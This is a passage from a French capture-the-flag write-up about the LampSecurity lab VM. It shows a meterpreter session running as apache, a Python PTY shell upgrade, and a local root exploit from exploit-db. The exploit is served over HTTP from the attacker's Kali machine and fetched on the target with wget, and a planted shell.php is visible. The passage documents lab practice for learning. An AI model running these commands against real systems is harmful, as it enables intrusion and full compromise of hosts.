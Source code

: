 Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686
Meterpreter : php/linux

meterpreter > shell
Process 4940 created.
Channel 1 created.

id
uid=48(apache) gid=48(apache) groups=48(apache)

python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ 
```

### Élévation de privilèges (root)

Après plusieurs essais infructueux, j'ai finalement réussi à passer root avec [cet exploit](https://www.exploit-db.com/exploits/8478/).

Hop, un petit serveur Web pour mettre l'exploit (disponible également sur Kali) à disposition de la VM LampSecurity.

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/8478.sh 8478.sh
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Pendant ce temps, l'exploit est compilé avec gcc puis exécuté, et tadaaam... root !

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ls
ls
drive-removable-media-ieee1394.png  redhat-home.png
media-optical-bd.png		    shell.php
palm-pilot.png			    stock_new-appointment.png
redhat-applications.png

bash-3.2$ wget http://192.168.56.102:8000/8478.sh -q
wget http://192.168.56.102:8000/8478.sh -q

bash-3.2$ ls
ls
8478.sh				    redhat-applications.png
drive-removable-media-ieee1394.png  redhat-home.png
media-optical-bd.png		    shell.php
palm-pilot.png			    stock_new-appointment.png
```
